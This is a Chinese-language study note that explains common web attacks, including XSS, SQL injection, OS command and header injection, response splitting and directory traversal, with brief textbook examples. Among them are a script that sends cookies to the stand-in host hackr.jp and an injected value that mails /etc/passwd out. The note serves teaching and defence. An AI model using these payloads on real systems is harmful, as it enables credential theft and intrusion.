 # Web 攻击

目录

- [原因](#原因)
- [攻击方式](#攻击方式)
    - [跨站脚本攻击 XSS](#跨站脚本攻击-xss)
    - [对用户 Cookie 的窃取攻击](#对用户-cookie-的窃取攻击)
    - [SQL 注入攻击](#sql-注入攻击)
    - [OS 命令注入攻击](#os-命令注入攻击)
    - [HTTP 首部注入攻击](#http-首部注入攻击)
    - [HTTP 响应截断攻击](#http-响应截断攻击)
    - [邮件首部注入攻击](#邮件首部注入攻击)
    - [目录遍历攻击](#目录遍历攻击)

## 原因

- HTTP 不具备安全功能
- 在客户端可以篡改请求

## 攻击方式

### 跨站脚本攻击 XSS

通过提交的信息中带入 js 脚本，执行操作或者引入三方 js 。

正常请求：<br />
http&#58;//example.jp/login?ID="haha"<br />
正常显示：<br />
&lt;input type="text" name="ID" value="yama" />

攻击请求：<br />
http&#58;//example.jp/login?ID=">&lt;script>var+f=document.getElementById("login");&lt;/script>"<br />
攻击显示：<br />
&lt;input type="text" name="ID" value="">&lt;script>var+f=document.getElementById("login");&lt;/script>

### 对用户 Cookie 的窃取攻击

恶意三方脚本执行。

如下：<br />
var content = escape(document.cookie);<br />document.write("&lt;img src=http&#58;//hackr.jp/?");<br />document.write(content);<br />document.write(">");<br />

### SQL 注入攻击

正常请求：<br />
http&#58;//example.jp/search?q=haha<br />
正常执行：<br />
SELECT * FROM bookTbl WHERE author = 'haha' and flag = 1;

攻击请求：<br />
http&#58;//example.jp/search?q=haha‘ --<br />
攻击显示：<br />
SELECT * FROM bookTbl WHERE author = 'haha' --’ and flag = 1;<br />
flag = 1 的条件被忽略

### OS 命令注入攻击

核心代码：<br />
my $adr = $q->param('mailaddress');<br />open(MAIL, "| /usr/sbin/sendmail $adr");<br />print MAIL "From: info@example.com\n";<br />

当传入 mailaddress 参数为 ; cat /etc/passwd | mail hack@example.jp

会执行下面的语句：<br />
| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp<br />
将含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。

### HTTP 首部注入攻击

http 头部信息：<br />
Location: http&#58;//www.example.com/a.cgi?q=101%0D%0ASet-Cookie:+SID=123456789

%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http&#58;//hackr.jp/）的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意的 Cookie 信息。通过和会话固定攻击（攻击者可使用指定的会话 ID）攻击组合，攻击者可伪装成用户。

### HTTP 响应截断攻击

HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的。这样的攻击叫做 HTTP 响应截断攻击。

如下：<br />
Set-Cookie: UID=（%0D%0A ：换行符）<br />（%0D%0A ：换行符）<br />&lt;HTML>&lt;HEAD>&lt;TITLE>之后，想要显示的网页内容 &lt;!--（原来页面对应的首部字利

### 邮件首部注入攻击

bob@hackr.jp%0D%0ABcc: user@example.com

%0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的 Web 应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发送，而这原本是无法指定的。

bob@hackr.jp%0D%0A%0D%0ATest Message

使用两个连续的换行符就有可能篡改邮件文本内容并发送。

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，或向文本添加附件等动作。

### 目录遍历攻击

http&#58;//example.com/read.php?log=../../etc/passwd

查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从 /www/log/ 目录开始定位相对路径。如果这份 read.php 脚本接受对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险。